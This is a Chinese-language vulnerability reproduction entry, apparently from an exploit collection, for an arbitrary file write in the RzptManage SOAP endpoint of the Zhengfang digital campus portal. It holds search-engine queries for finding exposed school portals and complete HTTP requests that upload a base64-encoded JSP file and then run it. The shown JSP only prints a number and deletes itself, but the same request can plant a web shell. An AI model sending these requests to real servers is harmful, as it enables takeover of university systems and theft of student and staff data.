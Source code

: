 # 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台RzptManage存在任意文件写入漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征

![](images/1702283487709-918c059e-9f97-4350-afe6-913323b0c83d.png)

# 四、漏洞复现
```plain
POST /zfca/axis/RzptManage HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Length: 808
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: text/xml;charset=UTF-8
SOAPAction: 
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:pub="http://pubService.webServices.zfca.zfsoft.com">
   <soapenv:Header/>
   <soapenv:Body>
      <pub:savePic soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <filepath xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">zkimvsrr.jsp</filepath>
         <bytes xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">PCUgb3V0LnByaW50bG4oMTExKjExMSk7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPg==</bytes>
      </pub:savePic>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1702283525953-651b32a8-b898-409d-9fad-772836fb9fef.png)

上传文件位置

```plain
/zfca/zkimvsrr.jsp
```

```plain
GET /zfca/zkimvsrr.jsp HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Connection: close
Accept: text/*
Accept-Encoding: gzip, deflate
```

![](images/1702283559218-84986962-b1ad-4ba9-a7e7-0c2f3cf00c38.png)

其中上传文件内容为`base64编码`

```plain
PCUgb3V0LnByaW50bG4oMTExKjExMSk7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPg==
```

![](images/1702283603222-5550ab0b-951b-485c-8dd1-f80921efe0e3.png)

